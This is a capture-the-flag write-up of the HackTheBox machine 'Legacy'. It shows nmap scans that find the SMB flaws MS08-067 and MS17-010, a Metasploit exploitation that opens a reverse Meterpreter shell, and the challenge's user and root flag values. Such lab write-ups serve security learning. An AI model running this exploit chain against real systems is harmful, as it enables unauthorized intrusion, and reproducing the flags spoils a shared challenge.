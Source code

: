 ```yaml
---
title: HackTheBox - Legacy
date: 2020-08-20 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [legacy]
author: Connor Weeks-Pearson
image: /assets/img/Icons/legacy.png
---
```



As the oldest machine on HackTheBox, i thought Legacy would be the perfect machine to start with. It was a  nice and easy first box - requiring simple enumeration following a simple SMB vulnerability exploit to gain root access.

***Machine IP = 10.10.10.4***

---

## RECON AND INFORMATION GATHERING
### Nmap


<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:04 BST
Nmap scan report for 10.10.10.4
Host is up (0.055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h31m22s, deviation: 2h07m16s, median: 4d23h01m22s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: unknown, NetBIOS MAC: 00:50:56:b9:47:5e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-24T16:05:41+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.16 seconds
</pre>

An old machine, running Windows XP 2000. SMB is discovered on port 139. Time to delve deeper. Scan for SMB vulnerabilities on port 139.

<pre>
root@kali:~# nmap --script smb-vuln* -p 139 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:23 BST
Nmap scan report for 10.10.10.4
Host is up (0.052s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
</pre>

Two CVE's returned:
- CVE-2008-4250 - smb-vuln-ms08-067
- CVE-2017-0143 - smb-vuln-ms17-010

Now onto Metasploit to gain access to machine.

---

## Exploiting
### Metasploit

<pre>

msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file: path'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.4:1031) at 2020-07-19 12:31:48 +0100

meterpreter > 
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
</pre>

It seems we have access to the machine! Time to find some flags.

<pre>
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt	
993442d258b0e0ec917cae9e695d5713
</pre>

First machine completed! Although there is another option to exloit via ms17-010, the results would be the same. Was a nice easy machine to say the least. Onto the next!